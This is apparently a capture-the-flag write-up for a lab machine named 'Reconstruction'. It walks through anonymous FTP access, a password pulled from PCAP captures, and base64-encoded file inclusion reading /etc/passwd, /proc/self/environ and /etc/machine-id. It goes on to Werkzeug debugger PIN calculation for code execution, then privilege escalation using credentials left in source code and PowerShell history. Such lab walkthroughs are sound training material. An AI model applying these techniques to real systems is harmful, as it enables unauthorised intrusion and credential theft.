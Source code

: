 # Reconstruction

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 00:04 +08
Nmap scan report for 192.168.183.103
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

### Anonymous FTP --> Wireshark Password

FTP allows anonymous logins:

```
$ ftp 192.168.183.103 
Connected to 192.168.183.103.
220 (vsFTPd 3.0.3)
Name (192.168.183.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49037|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29  2020 WebSOC
-rw-r--r--    1 0        0             137 Apr 29  2020 note.txt
ftp> cd WebSOC
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32250|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29  2020 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29  2020 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29  2020 30.04.2020.pcap
```

`note.txt` mentions that there are passwords within the files:

```
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!

TODO: remove leftover passwords from testing
```

Most of the PCAP files contained traffic generated from brute forcing the site, so it was pretty tedious looking through all of them. The `30.04.2020` PCAP file contained a lot of brute force attempts, while `1.05.2020` contained very few:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And within that PCAP file, we can find a request that has a password that seems to work:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### Web Enum --> LFI

Port 8000 hosted the same Flask application:

<figure><img src="../../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

With the password we found earlier, we can login:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Attempting to view the 'Hello World' blog entry results in an error from Flask:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

There's a feature within this kind of web application that allows us to access the console to run Python code, but this one is protected by the PIN:

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

I ran a directory scan using `wfuzz`:

{% code overflow="wrap" %}
```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=308,404 -t 100 http://192.168.183.103:8080/FUZZ/
000000182:   302        3 L      24 W       253 Ch      "data"                      
000001225:   200        66 L     126 W      2011 Ch     "logout"                    
000001387:   302        3 L      24 W       257 Ch      "create"
```
{% endcode %}

There were just these 3 directories. `create` is pretty obvious in what it does, but `data` was not. Visiting it just shows this:

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

Testing any directories with this shows the same page, but with a new header:

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

The `X-Error` showing `Incorrect Padding` is present, and when googled the first thing that comes up is `base64`:

<figure><img src="../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

If we use the `base64` encoded string of `/etc/passwd`, we get another unique error:

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

Now there's an error saying there's no file or directory triggered by the newline character. This means we have LFI on the server if we use `echo -n`!

### Werkzeug PIN Calculation --> RCE

Since we have LFI on the Werkzeug server, we can actually calculate the PIN required.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

{% embed url="https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/" %}

Using our LFI, we can get the parameters required. First, we need to get the ARP Address of the machine. First, we can find the ARP cache to identify the interface used:

```
$ echo -n '/proc/net/arp' | base64
L3Byb2MvbmV0L2FycA==
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

`ens160` is the interface name needed to find the ARP address:

```
$ echo -n '/sys/class/net/ens160/address' | base64
L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=
```

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Convert this to decimal using `python`:

```
$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056ba311e)
345052426526
```

Next, we need to get the machine ID.

```
$ echo -n '/etc/machine-id' | base64              
L2V0Yy9tYWNoaW5lLWlk
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

The machine ID needed some service name appended to the back of it, which we can get from reading `/proc/self/cgroup`.&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

We also need the user that started the application, which can be found in `/proc/self/environ`:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

Afterwards, I tested it a few times, varying the public bits and testing the machine ID with and without `blog.service` appended to the end of it and eventually got it:

```python
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.6/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052425031',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '00566233196142e9961b4ea12a2bdb29'# get_machine_id(), /etc/machine-id
]
```

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

From here, we can easily get a reverse shell on our machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We cannot read the user flag yet.

## Privilege Escalation

### Jack Creds

Within `app.py` for the Flask website, we can find some credentials:

```
#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
```

We can `su` to `jack` using the commented password.

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

### Powershell --> Root Creds

Within the home directory of the user, I enumerated the directories present and noticed that there was a Powershell directory:

```
jack@reconstruction:~$ ls -la .local/share
total 12
drwxr-xr-x 3 root root 4096 Sep 30  2020 .
drwxr-xr-x 3 root root 4096 Sep 30  2020 ..
drwxr-xr-x 3 root root 4096 Sep 30  2020 powershell
```

Obviously this was rather odd. If we read the `ConsoleHost_History.txt` file at the end of it, we find this:

```
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clear
cls
exit
```

This password can be used to `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
